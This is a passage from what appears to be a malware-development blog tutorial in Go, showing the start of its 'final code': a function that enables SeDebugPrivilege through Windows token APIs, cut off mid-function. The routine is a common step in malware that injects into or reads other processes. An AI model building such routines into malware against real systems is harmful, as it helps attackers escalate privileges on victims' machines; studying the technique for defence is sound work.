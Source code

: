 ```go

  fmt.Println("[+] Process finished!")
}
```

Let's add some logging to the code to provide a better output. And finally add some cool banner using [manytools.org](https://manytools.org) automatic generator

And here it's the final code

```go
package main

/*

Author: D3Ext
Blog post: https://d3ext.github.io/posts/malware-dev-4/

*/

...

// Packages and structs omitted for brevety

func EnableSeDebugPrivilege() (error) {

  var privilege_name = "SeDebugPrivilege"
  var tokenAdjustPrivileges = 0x0020 // Windows values
  var tokenQuery = 0x0008
  var SePrivilegeEnabled uint32 = 0x00000002

  // Import DLLs
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  advapi32 := windows.NewLazyDLL("advapi32.dll")

  // Get API calls
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  GetLastError := kernel32.NewProc("GetLastError")
  OpenProcessToken := advapi32.NewProc("OpenProcessToken")
  LookupPrivilegeValue := advapi32.NewProc("LookupPrivilegeValueW")
  AdjustTokenPrivileges := advapi32.NewProc("AdjustTokenPrivileges")

  // Get current process handle
  currentProc, _, _ := GetCurrentProcess.Call()

  var hToken uintptr
  // Get token from process
  result, _, err := OpenProcessToken.Call(
    currentProc,
    uintptr(tokenAdjustPrivileges) | uintptr(tokenQuery),
    uintptr(unsafe.Pointer(&hToken)),
  )

  if result != 1 { // Handle error
    return err
  }

  var tkp TokenPrivileges
  // Get token privileges values
  result, _, err = LookupPrivilegeValue.Call(
    uintptr(0),
    uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr(privilege_name))),
    uintptr(unsafe.Pointer(&(tkp.privileges[0].luid))),
  )
```